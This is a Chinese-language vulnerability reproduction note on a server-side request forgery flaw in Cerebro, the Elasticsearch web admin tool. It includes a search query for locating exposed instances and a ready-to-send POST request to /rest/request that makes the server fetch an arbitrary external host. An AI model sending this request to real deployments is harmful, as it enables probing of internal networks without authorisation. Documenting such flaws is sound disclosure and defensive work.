 # Cerebro request SSRF漏洞

## 漏洞描述

Cerebro是使用Scala、Play Framework、AngularJS和Bootstrap构建的开源的基于Elasticsearch Web可视化管理工具。您可以通过Cerebro对集群进行web可视化管理，如执行rest请求、修改Elasticsearch配置、监控实时的磁盘，集群负载，内存使用率等。其中某功能存在SSRF漏洞，攻击者通过发送特定的请求包可以探测内网信息

## 漏洞影响

<a-checkbox checked>Cerebro</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Cerebro"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1643621805930-c98b1f7a-e9b0-452d-b4b1-0ac1e99f7084.png)

发送请求包

```go
POST /rest/request

{"method":"GET","data":"","path":"robots.txt","host":"https://www.baidu.com"}
```

![img](../../../.vuepress/public/img/1643622217572-65a71fc9-e87d-4c76-8848-515c854ea959.png)